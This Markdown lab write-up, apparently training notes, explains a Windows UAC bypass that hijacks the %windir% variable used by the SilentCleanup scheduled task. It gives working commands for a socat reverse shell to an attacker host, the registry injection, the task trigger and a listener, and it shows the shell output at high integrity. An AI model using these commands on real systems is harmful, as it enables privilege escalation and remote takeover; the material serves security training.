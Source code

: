 # Bypassing Always Notify

On default Windows configurations, applications related to the system's configuration to bypass UAC can be used  
as most of these apps have the autoElevate flag set on their manifests. But if UAC is configured on the "Always Notify" 
level, `fodhelper` and similar apps won't be of any use as they will require the user to go through the UAC prompt to 
elevate. This prevents several known bypass methods. 

Scheduled tasks are an exciting target. By design, they are meant to be run without any user interaction (independent 
of the UAC security level), so asking the user to elevate a process manually is not an option. Any scheduled tasks 
that require elevation will automatically get it without going through a UAC prompt.

The Disk Cleanup Scheduled Task is configured to run with the Users account, which means it will inherit the 
privileges from the calling user. The Run with highest privileges option will use the highest privilege security 
token available to the calling user, which is a high IL token for an administrator. If a regular non-admin user 
invokes this task, it will execute with medium IL only since that is the highest privilege token available to 
non-admins, and a bypass would not work.

But ... the task can be run on-demand, executing the following command when invoked:

    %windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%

The command depends on environment variables, and it may be possible to inject commands through them and get them 
executed by starting the DiskCleanup task manually.

The `%windir%` variable can be overridden through the registry by creating an entry in `HKCU\Environment`. To execute 
a reverse shell using socat:

    cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM 

`&REM ` (ending with a blank space) is concatenated at the end to comment whatever is put after `%windir%` when 
expanding the environment variable to get the final command used by DiskCleanup.

## Lab

1. Disable Windows Defender
2. set up a listener for a reverse shell with nc:

```text
nc -lvp 4446
```

3. Connect to the backdoor provided on port 9999:

```text
nc MACHINE_IP 9999
```

4. Write the payload to `%windir%` and then execute the DiskCleanup task:

```text
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

5. In the shell with high IL, get the flag:

```text
$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

C:\flags\GetFlag-diskcleanup.exe
```

6. Clean up

```text
reg delete "HKCU\Environment" /v "windir" /f
```
